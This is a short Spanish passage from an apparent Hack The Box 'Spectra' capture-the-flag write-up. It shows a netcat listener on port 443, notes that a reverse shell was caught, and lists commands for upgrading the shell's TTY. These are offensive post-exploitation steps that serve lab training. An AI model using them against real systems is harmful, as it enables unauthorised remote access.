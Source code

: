 y nos colocamos a la escucha con netcat:

```
nc -lvnp 443
```

y obtenemos una conexion reversa:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SPECTRA/images/7.PNG)

podemos hacer un tratamiento de la tty:

```
script /dev/null -c bash
[ctrl + Z]
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows 53 columns 187
```


